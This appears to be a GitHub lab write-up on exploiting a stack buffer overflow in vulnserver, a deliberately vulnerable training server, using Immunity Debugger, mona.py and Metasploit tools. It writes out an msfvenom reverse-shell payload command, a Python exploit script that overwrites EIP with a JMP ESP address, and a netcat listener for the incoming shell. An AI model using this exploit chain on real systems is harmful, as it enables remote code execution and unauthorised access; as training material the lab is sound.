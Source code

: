 # Windows Buffer Overflow

## Introduction
In this project, we will explore the concept of a buffer overflow vulnerability in Windows. A buffer overflow occurs when more data is written to a buffer than it can hold, potentially allowing an attacker to execute arbitrary code. We will use tools like Immunity Debugger, vulnserver, Windows 10, and Kali Linux to demonstrate a buffer overflow exploit.

## Tools Used
1. **Immunity Debugger**: A powerful debugger for analyzing and exploiting vulnerabilities.
2. **vulnserver**: A vulnerable server application designed for educational purposes.
3. **Windows 10**: The target operating system.
4. **Kali Linux**: The attacker’s machine with penetration testing tools.

## Prerequisites
- Basic understanding of buffer overflow vulnerabilities.
- Knowledge of Windows and Linux operating systems.
- Experience with basic networking concepts.

## Setup
### Installing Immunity Debugger
1. Download Immunity Debugger from the official website.
2. Install Immunity Debugger on Windows 10 machine.

*Ref 1: Installing Immunity Debugger*

![Installing Immunity Debugger](images/image1.png) 
![Installing Immunity Debugger](images/image2.png) 
![Installing Immunity Debugger](images/image3.png) 
![Installing Immunity Debugger](images/image4.png) 
![Installing Immunity Debugger](images/image5.png) 
![Installing Immunity Debugger](images/image6.png)

### Setting Up vulnserver
1. Download vulnserver from the official repository.
2. Extract the vulnserver executable to a directory on Windows 10 machine.
3. Run vulnserver by executing `vulnserver.exe` from the command line.

*Ref 2: Set Up Vulnserver*

![Setting Up Vulnserver](images/image7.png)
![Setting Up Vulnserver](images/image8.png)
![Setting Up Vulnserver](images/image9.png) 
![Setting Up Vulnserver](images/image10.png) 

### Configuring Kali Linux
1. Ensure that Kali Linux machine is on the same network as Windows 10 machine.
2. Install necessary tools, such as `metasploit` and `netcat`.

## Steps
### 1. Identifying the Vulnerability
1. Launch Immunity Debugger on a Windows 10 machine.
2. Attach Immunity Debugger to the vulnserver process by selecting `File -> Attach` and choosing `vulnserver.exe`.
3. Press F9 key to change its state from paused to running.
4. Connect to the vulnserver using netcat command.

For e.g; nc -nv ip_address port

*Ref 3: Running Vulnserver*

![Running vulnserver](images/image11.png) ![Running vulnserver](images/image12.png) ![Running vulnserver](images/image13.png)

### 2. Spiking
1. Identifying a vulnerable parameter.

*Ref 4: Spiking*

![Spiking](images/image14.png) ![Spiking](images/image15.png) ![Spiking](images/image16.png)
![Spiking](images/image17.png) ![Spiking](images/image18.png) ![Spiking](images/image19.png)

### 3. Fuzzing
1. Use a fuzzer to send random data to vulnserver and identify potential crash points.
2. On Kali Linux, create a simple fuzzer script in Python.
3. Run the python script.

*Ref 5: Fuzzing*

![Fuzzing](images/image20.png) ![Fuzzing](images/image21.png) ![Fuzzing](images/image22.png) ![Fuzzing](images/image23.png) ![Fuzzing](images/image24.png)
![Fuzzing](images/image25.png) ![Fuzzing](images/image26.png) ![Fuzzing](images/image27.png) ![Fuzzing](images/image28.png)

### 4. Finding the Offset
1. Find the exact offset where the buffer overflow occurs using the pattern generation and pattern offset tools provided by Metasploit.
2. Generate a unique pattern:
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 6900
    ```
3. Send the unique pattern to vulnserver and note the EIP value in Immunity Debugger.
4. Determine the offset:
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6900 -q EIP_VALUE
    ```
*Ref 6: Finding the offset*

![Finding the offset](images/image29.png) ![Finding the offset](images/image30.png) ![Finding the offset](images/image31.png)
![Finding the offset](images/image32.png) ![Finding the offset](images/image33.png) ![Finding the offset](images/image34.png)

### 5. Overwriting the EIP
1. Modify and execute a python script.
Note: EIP value = 42424242
2. We see that the EIP is overwritten with "BBBB". This means that we can control the EIP.

*Ref 7: Overwriting the EIP*

![Overwriting the eip](images/image35.png) ![Overwriting the eip](images/image36.png) ![Overwriting the eip](images/image37.png)
![Overwriting the eip](images/image38.png)

### 6. Finding Bad Characters
1. We will use mona.py python script as follows:
Commands:

!mona bytearray

*Ref 8: Finding bad characters*

![Finding bad characters](images/image39.png) ![Finding bad characters](images/image40.png) ![Finding bad characters](images/image41.png)
![Finding bad characters](images/image42.png) ![Finding bad characters](images/image43.png) ![Finding bad characters](images/image44.png)
![Finding bad characters](images/image45.png) ![Finding bad characters](images/image46.png)

### 7. Finding the Right Module
1. Utilizing the mona.py script.

Commands:

!mona modules

!mona find -s "\xff\xe4" -m essfunc.dll

2. Set a breakpoint.

a. Click the pointer in the window in the top left-hand corner.

b. Press F2 key to set a breakpoint.

3. Run the python script.

python2 find-right-module.py


*Ref 9: Finding the Right Module*

![Finding the right module](images/image47.png) ![Finding the right module](images/image48.png) ![Finding the right module](images/image49.png) ![Finding the right module](images/image50.png)
![Finding the right module](images/image51.png) ![Finding the right module](images/image52.png) ![Finding the right module](images/image53.png)

### 8. Exploit Development
1. Generating a payload using msfvenom:

sudo msfvenom -p windows/shell_reverse_tcp LHOST=Ip address of kali Linux LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

2. Create a Python script to send the exploit payload.

Python Code:

#!/usr/bin/python
from __future__ import print_function
import sys, socket

overflow = ("Paste the payload")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
     s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
     s.connect(('192.168.1.97',9999))
     s.send(('TRUN /.:/' + shellcode))
     s.close()

except:
     print("Error connecting to server")
     sys.exit()

3. Start a netcat listener.
nc -nvlp 4444

### 5. Executing the Exploit
1. Replace the 'payload' variable with the shellcode generated by a tool like 'msfvenom'.
2. Run the exploit script from a Kali Linux machine.
3. Observe the reverse shell connection on a Kali Linux machine.

*Ref 10: Exploit Development - Generating shellcode | Gaining Root

![exploit development](images/image54.png) ![exploit development](images/image55.png) ![exploit development](images/image56.png)
![exploit development](images/image57.png) ![exploit development](images/image58.png) ![exploit development](images/image59.png)

## Conclusion
By following these steps, we have successfully demonstrated a buffer overflow vulnerability and developed an exploit for it. This project emphasizes the importance of secure coding practices and proper input validation to prevent such vulnerabilities.
